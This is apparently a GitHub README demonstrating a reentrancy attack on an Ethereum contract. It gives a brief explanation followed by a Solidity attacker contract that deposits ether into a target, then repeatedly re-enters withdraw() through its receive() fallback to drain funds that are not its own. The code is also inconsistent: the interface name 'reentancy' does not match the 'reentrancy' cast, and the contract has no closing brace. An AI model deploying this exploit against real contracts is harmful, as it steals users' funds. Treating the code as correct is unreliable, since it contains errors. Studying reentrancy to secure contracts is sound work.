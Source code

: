 # reentrancy-attack
shocase of reentrancy attack 
A reentrancy attack is essentially us creating another smart contract to interact with the target contract. We first send an amount of eth to it and in the same function withdraw. 
Afterwards we withdraw again before the target contract has time to process the transaction. In the process we need a fallback function to use within the time frame of sending money and receiving money.
We use this fallback function so we can restart the process and the target contract fails to update the balance, allowing us to withdraw funds which do not belong to us.


interface reentancy {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract attack {
    address public owner;
    reentancy targetContract;
    uint targetValue = 1000000000000000;

    constructor(address _targetAddr) public {
        targetContract = reentrancy(_targetAddr);
        owner = msg.sender;
    }

    function balance() public view returns (uint) {
        return address(this).balance;
    }

    function doublefunction() public payable {
        require(msg.value >= targetValue);
        targetContract.donate.value(msg.value)(address(this));
        targetContract.withdraw(msg.value);
    }

    function withdrawAll() public returns (bool) {
        require(msg.sender == owner, "");
        uint totalBalance = address(this).balance;
        (bool sent, ) = msg.sender.call.value(totalBalance)("");
        require(sent, "");
        return sent;
    }

    receive() external payable {
        uint targetBalance = address(targetContract).balance;
        if (targetBalance >= targetValue) {
          targetContract.withdraw(targetValue);
        }
    }
